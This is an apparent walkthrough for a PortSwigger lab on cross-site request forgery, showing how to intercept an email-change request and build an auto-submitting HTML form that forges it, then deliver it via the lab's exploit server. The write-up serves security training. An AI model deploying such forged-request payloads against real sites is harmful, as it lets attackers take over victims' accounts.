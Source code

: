 # Lab: Lab: CSRF vulnerability with no defenses

**Link**: https://portswigger.net/web-security/csrf/lab-no-defenses

**Solution**:

1- in My account page, try accessing to change the email tab,

2- Intercept the request with Burp like the following

<p align="center" width="100%">
  <img src="https://github.com/aboelkassem/portswigger-labs/blob/main/CSRF/Lab%20CSRF%20vulnerability%20with%20no%20defenses/image1.png" width="500" hight="500"/>
</p>

3- there is no token authorize per form generation

4- so, we can generate html with `/my-account/change-email` post method like the following 

5- or in burp pro, right-click on the request ⇒ Engagement tools ⇒ generate CSRF PoC (which will generate the following html)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5c00f3042ae730c010b344005500e0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="mohamed&#46;abdelrahman&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

6- In port swagger, open Exploit server

7- Past the above code in Body, then Store

8- Click on deliver to victom

<p align="center" width="100%">
  <img src="https://github.com/aboelkassem/portswigger-labs/blob/main/CSRF/Lab%20CSRF%20vulnerability%20with%20no%20defenses/image2.png" width="500" hight="500"/>
</p>
